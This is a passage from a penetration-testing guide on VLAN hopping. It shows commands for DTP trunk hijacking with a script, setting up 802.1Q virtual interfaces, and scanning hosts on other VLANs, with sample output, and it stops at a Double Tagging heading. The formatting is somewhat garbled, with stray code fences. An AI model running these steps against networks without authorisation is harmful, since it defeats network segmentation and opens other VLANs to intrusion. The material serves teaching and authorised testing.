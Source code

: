 ```
To enumerate the VLANs it's also possible to generate the DTP Desirable frame with the script [[https://github.com/in9uz/VLANPWN/blob/main/DTPHijacking.py|**DTPHijacking.py**]]**. D**o not interrupt the script under any circumstances. It injects DTP Desirable every three seconds. **The dynamically created trunk channels on the switch only live for five minutes. After five minutes, the trunk falls off.**

```
sudo python3 DTPHijacking.py --interface eth0
```
```
I would like to point out that **Access/Desirable (0x03)** indicates that the DTP frame is of the Desirable type, which tells the port to switch to Trunk mode. And **802.1Q/802.1Q (0xa5**) indicates the **802.1Q** encapsulation type.

By analyzing the STP frames, **we learn about the existence of VLAN 30 and VLAN 60.**

![[../../images/image (124).png|]]


#### Attacking specific VLANs

Once you known VLAN IDs and IPs values, you can **configure a virtual interface to attack a specific VLAN**.\
If DHCP is not available, then use _ifconfig_ to set a static IP address.

```
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
          inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
          inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:19 errors:0 dropped:0 overruns:0 frame:0
          TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)

root@kali:~# arp-scan -I eth1.250 10.121.5.0/24
```
```
```bash
# Another configuration example
modprobe 8021q
vconfig add eth1 20
ifconfig eth1.20 192.168.1.2 netmask 255.255.255.0 up
```
```
```bash
# Another configuration example
sudo vconfig add eth0 30
sudo ip link set eth0.30 up
sudo dhclient -v eth0.30
```
```
#### Automatic VLAN Hopper

The discussed attack of **Dynamic Trunking and creating virtual interfaces an discovering hosts inside** other VLANs are **automatically performed** by the tool: [[https://github.com/nccgroup/vlan-hopping---frogger|**https://github.com/nccgroup/vlan-hopping---frogger**]]

#### Double Tagging

```